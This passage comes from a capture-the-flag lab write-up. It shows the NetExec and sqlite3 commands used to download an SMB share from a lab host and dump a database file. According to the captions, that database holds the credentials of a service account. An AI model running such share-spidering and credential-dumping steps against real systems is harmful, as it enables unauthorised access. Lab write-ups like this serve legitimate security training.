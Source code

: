 By downloading the share and dumping the data of `Audit.db` we obtain the credentials of the `ArkSvc` account (Figure 15 & 16).

{% code overflow="wrap" %}
```bash
# downloading the Audit share
nxc smb 10.10.10.182 -u s.smith -p s.smith_pass -M spider_plus -o DOWNLOAD_FLAG=True EXCLUDE_FILTER=Data,NETLOGON,print\$,SYSVOL OUTPUT_FOLDER=SMB
# checking the file type of Audit.db
file SMB/10.10.10.182/Audit\$/DB/Audit.db
# dumping the database's data
sqlite3 SMB/10.10.10.182/Audit\$/DB/Audit.db .dump
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/casc_down_audit.png" alt=""><figcaption><p>Figure 15: Downloading the Audit share.</p></figcaption></figure>

<figure><img src="../../../.gitbook/assets/casc_audit_db.png" alt=""><figcaption><p>Figure 16: The database contains the credentials of the ArkSvc account!</p></figcaption></figure>
